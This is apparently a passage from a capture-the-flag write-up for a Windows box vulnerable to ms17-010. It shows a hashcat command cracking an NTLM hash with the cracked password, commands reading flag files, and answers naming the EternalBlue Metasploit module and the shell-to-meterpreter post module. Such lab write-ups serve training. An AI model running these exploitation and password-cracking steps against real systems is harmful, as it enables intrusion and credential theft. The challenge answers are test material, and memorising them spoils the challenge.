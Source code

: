 2. The acquired hashes are **raw LANMAN/NTLM hashes**. The fourth field consist of the NTLM hash. We can use hascat to crack them with the following cmd. The NTLM hashes are stored in hashes file. Dictionary used is rockyou.txt. 

**Output**

```bash
hashcat -m 1000 -a 3 hashes /opt/rockyou.txt

hashcat hashes --show

ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22
```

## FINDING FLAGS

1. Flag1? - **Stored in C:\ dir**

```ps
c:\>type flag1.txt
type flag1.txt
```

2. Flag2? - **All local user account passwords are stored inside windows in C:\windows\system32\config\SAM dir**

```ps
c:\Windows\System32\config>type flag2.txt
type flag2.txt
```

3. Flag3? -  **In Jon's home dir**

```ps
c:\Users\Jon\Documents>type flag3.txt
type flag3.txt
```

We can mark the box complete now after submitting all the flags. Onto the next challenge !! 


## Answers to complete the box

1. Task 1
   1.  How many ports are open with a port number under 1000? - **3**
   2. What is this machine vulnerable to? - **ms17-010**

2. Task 2
   1. Find the exploitation code we will run against the machine. What is the full path of the code? - **exploit/windows/smb/ms17_010_eternalblue** 
   2. Show options and set the one required value. What is the name of this value? - **RHOSTS** 

3. Task 3
   1. Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? - **post/multi/manage/shell_to_meterpreter**
   2. Select this (use MODULE_PATH). Show options, what option are we required to change? - **SESSION**
   3. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id. - **2828**.
